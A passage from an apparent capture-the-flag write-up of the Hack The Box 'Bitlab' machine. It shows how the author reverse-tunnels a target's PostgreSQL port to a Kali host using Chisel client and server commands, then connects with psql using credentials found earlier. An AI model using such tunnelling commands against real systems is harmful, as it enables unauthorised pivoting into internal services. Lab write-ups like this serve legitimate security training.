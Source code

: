 **psql** command is not installed on the local box so I would have to port forward it to my local Kali machine:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-32.png)

#### Chisel

After transferring Chisel to the target box, I will start the client session towards Kali's Chisel server so I can access port 5432 on my local kali machine:

`./chisel_linux client 10.10.14.21:9000 R:5432:localhost:5432`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-33.png)

On my Kali Chisel server, I have a connection made:

`chisel server -p 9000 --reverse`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-34.png)

Now with the credentials found from Postgresql snippet earlier, I can access port 5432 through from Kali machine:

`psql -h 127.0.0.1 -p 5432 -U profiles`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/bitlab/image-35.png)

### PSQL

Through `\l`, I will list all the DBs available. **gitlab** and **profiles** looks interesting to me:
